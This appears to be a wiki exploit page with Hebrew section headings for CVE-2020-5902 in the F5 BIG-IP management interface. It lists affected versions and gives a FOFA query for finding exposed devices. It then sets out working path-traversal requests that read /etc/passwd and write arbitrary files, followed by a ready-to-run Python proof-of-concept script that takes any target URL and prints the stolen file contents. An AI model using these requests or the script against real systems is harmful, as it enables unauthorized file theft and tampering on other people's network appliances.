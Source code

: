 <languages />

השפעת פגיעות
------------

    F5 BIG-IP 15.x: 15.1.0.4

    F5 BIG-IP 14.x: 14.1.2.6

    F5 BIG-IP 13.x: 13.1.3.4

    F5 BIG-IP 12.x: 12.1.5.2

    F5 BIG-IP 11.x: 11.6.5.2

FOFA
----

    title="BIG-IP&reg ;- Redirect"

ניצול
-----

### קרא את הקובץ

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

### כתוב קובץ

    http://xxx.xxx.xxx.xxx/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

    POST: fileName=/tmp/test.txt&content=test

POC
---

    import requests
    import sys
    import json
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: F5 BIG-IP                                                \033[0m')
        print('+  \033[36m使用格式: python3 CVE-2020-5902.py                                  \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        version_url = target_url + "/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Accept-Language":"zh-CN,zh;q=0.9",
        }
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=version_url, timeout=10, verify=False, headers=headers)
            if "output" in response.text:
                print("\033[32m[o] 目标 {} 存在漏洞，响应为:\n{}\033[0m".format(target_url, json.loads(response.text)["output"]))
            else:
                print("\033[31m[x] 目标漏洞无法利用 \033[0m")

        except Exception as e:
            print("\033[31m[x] 目标漏洞无法利用 ,{}\033[0m".format(e))
            sys.exit(0)


    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)

הפניה
-----

<https://short.pwnwiki.org/?c=Kum2Ch>
